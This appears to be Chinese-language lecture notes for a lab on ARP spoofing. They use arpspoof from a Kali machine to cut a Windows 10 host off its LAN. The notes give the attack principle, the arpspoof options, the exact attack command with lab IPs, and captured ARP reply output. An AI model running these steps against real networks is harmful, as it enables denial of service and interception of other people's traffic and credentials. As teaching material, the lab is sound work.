

# ARP断网攻击

## 1.课前准备

kali 作为ARP攻击机，192.168.110.26  MAC地址：00:0c:29:fc:66:46

win10 作为被攻击方，192.168.110.12   MAC地址：1c:69:7a:a4:cf:92 

网关（路由器），192.168.110.1    MAC地址：e4:3a:6e:35:98:00

需要注意的时，两台主机需要在同一个局域网，并且网络通畅。

```
ping www.mashibing.com
```

计算上网的过程示意图：

	

## 2.arp断网攻击原理

他的原理是：向目标主机不断的发送ARP报文，然后将其报文中的网关Mac地址设置成为攻击机的主机MAC地址，
然后目标主机想要访问网络发送数据包时，都会发送到攻击机，然后攻击机只需要做一个丢弃数据包的
命令，就可以断掉目标主机的网络了。

## 3.arpspoof介绍:

arpspoof [spuːf]  是一个好用的ARP欺骗工具，攻击者通过毒化受害者ARP缓存，将网关MAC替换为攻击者MAC，然后攻击者可截获受害者发送和收到的数据包，从而获取受害者账户、密码等相关敏感信息。Kali linux中自带了该工具。

命令使用讲解

```
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
-i：指定网卡
-c:攻击机的IP
-t 目标机器的IP
-r：网关IP
```

## 4.具体攻击步骤：

**1.首先确保两台机器在同一局域网络下，并且可以互相通讯。**

​	1.1查看kali的ip：

```
ip a
```

​	1.2 查看windows的ip：

```
ipconfig /all
```

​	1.3 windows ping kali:

```
ping 192.168.110.26
```

​	1.4 win10 查看arp表，记录网关的信息

```
arp -a |findstr 192.168.110.1
```

**2.kali进行断网攻击**

此时输入该命令后，win10将会被断网。

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.12
-i:指定网卡
-r:指定网关ip
-t:指定靶机ip
```

**3.win10 查看网络连接 和 kali 的网络链接**

```
ping www.mashibing.com
```

**4.win10查看此时的arp表**

```
arp -a 
或者
arp -a |findstr 192.168.110.1
```

**5.结束断网攻击**

```
ctrl+C
```

**6.win10重新查看网络状态**

```
ping www.mashibing.com
```

**7.win10重新查看arp表**

```
arp -a |findstr 192.168.110.1
```

## 5.ARP断网攻击原理深入分析

**1.ARP攻击断网的过程 **

```
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.110.1 is-at 0:c:29:fc:66:46
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.110.12 is-at 0:c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.110.1（网关）  192.168.110.12 的mac地址是 00:0c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.110.12（靶机） 192.168.110.1 的mac地址是 00:0c:29:fc:66:46

Ctrl+C停止攻击后
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.110.1 is-at e4:3a:6e:35:98:0
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.110.12 is-at 1c:69:7a:a4:cf:92
ARP攻击机器 重新告诉 192.168.110.12（靶机） 192.168.110.1 的mac地址是 e4:3a:6e:35:98:0
ARP攻击机器 重新告诉 192.168.110.1（网关）  192.168.110.12 的mac地址是 1c:69:7a:a4:cf:92
```

**2.ARP断网原理图：**

	

## 6.课堂小结

请看思维导图：ARP断网攻击课程总结.xmind